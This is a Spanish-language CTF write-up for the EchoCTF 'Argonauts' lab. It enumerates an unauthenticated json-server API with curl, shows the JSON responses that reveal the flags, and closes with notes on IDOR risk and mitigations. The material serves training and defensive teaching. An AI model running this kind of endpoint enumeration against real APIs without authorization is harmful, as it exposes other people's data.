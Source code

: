 ![jason1](jason1.png)
# Argonauts - CTF Writeup

**IP:** http://10.0.41.12:1337

---

## Introducción

La máquina **Argonauts** de **EchoCTF** presenta un reto basado en la exploración de una API JSON. El objetivo es descubrir banderas ocultas accediendo a distintos endpoints que revelan información sobre vehículos, propietarios y tipos de vehículos. La máquina funciona con un backend tipo JSON Server que expone datos mediante RESTful endpoints.

---

## Funcionamiento de json-server

**json-server** es una herramienta que crea rápidamente una API RESTful a partir de un archivo JSON, permitiendo realizar operaciones CRUD sobre recursos como `plates`, `owners` y `types`. Cada recurso tiene un endpoint estándar, y los datos se pueden obtener o modificar mediante llamadas HTTP.

---

## Reconocimiento y Exploración

Al acceder a `http://10.0.41.12:1337` se observa documentación indicando:


![jason2](jason2.png)

- Endpoint inicial: `/DMV`
- Endpoint oculto para la bandera: `/??????`
Se realiza una lectura rapida de [jason_server](https://github.com/typicode/json-server) para entender su funcionamiento y posteriormente hacemos la primera consulta, esta consulta se puede hacer tanto con `curl` como modificando la URL del sitio directamente en el navegador, por motivos practicos lo hare desde `curl` en este caso.

```bash
curl http://10.0.41.12:1337/DMV
```

Respuesta:

```json
[
  {
    "id": 1,
    "plate_id": 1,
    "owner_id": 2,
    "type_id": 1
  },
  {
    "id": 2,
    "plate_id": 4,
    "owner_id": 2,
    "type_id": 1
  }
]
```

---

## Exploración detallada

### `/plate/1`

```bash
curl http://10.0.41.12:1337/plate/1
```

Respuesta:

```json
{
  "id": 1,
  "number": "6535 XYZ",
  "type_id": 1
}
```

### `/plate`

```bash
curl http://10.0.41.12:1337/plate
```

Respuesta (fragmento):

```json
[
  {"id":1,"number":"6535 XYZ","type_id":1},
  {"id":2,"number":"3735 QWE","type_id":2},
  {"id":3,"number":"ETSCTF_JUNO_WAS_HERE_HEHEHE","type_id":2},
  {"id":4,"number":"4890 LKJ","type_id":1},
  {"id":5,"number":"2193 JGH","type_id":2}
]
```

---

### `/owner`

```bash
curl http://10.0.41.12:1337/owner
```

Respuesta:

```json
[
  {"id":2,"name":"Name Surname other"},
  {"id":3,"name":"ETSCTF_JUNO_WAS_HERE_HEHEHE"}
]
```

---

### `/type`

```bash
curl http://10.0.41.12:1337/type
```

Respuesta:

```json
[
  {"id":1,"name":"VAN"},
  {"id":3,"name":"CAR"}
]
```

---

## Última bandera encontrada

Consultando el endpoint oculto que se sugiere en la documentación:

```bash
curl http://10.0.41.12:1337/ETSCTF
```

Respuesta:

```json
{
  "value": "ETSCTF_JUNO_WAS_HERE_HEHEHE"
}
```

---

## Riesgos de Seguridad

- Exposición total de datos sensibles sin autenticación.
- Falta de control de acceso y validación.
- IDOR implícito por uso de IDs secuenciales.
- Endpoint oculto sin protección.

---

## Vulnerabilidades

- Ausencia de autenticación y autorización.
- Exposición de banderas a través de endpoints públicos.
- Falta de validación de permisos en la API.

---

## Medidas de mitigación

- Implementar autenticación y autorización en la API.
- Usar identificadores no predecibles (UUIDs).
- Restringir métodos HTTP en producción.
- Monitorizar accesos y actividades sospechosas.
- No exponer datos sensibles en entornos públicos.

---

## Conclusión para enseñanza

Este reto ejemplifica cómo un json-server sin medidas de seguridad puede exponer datos confidenciales fácilmente. Es fundamental aplicar controles de acceso, validar permisos y evitar exposiciones innecesarias en APIs RESTful.

---

**-Writeup by SheepsStealer-**
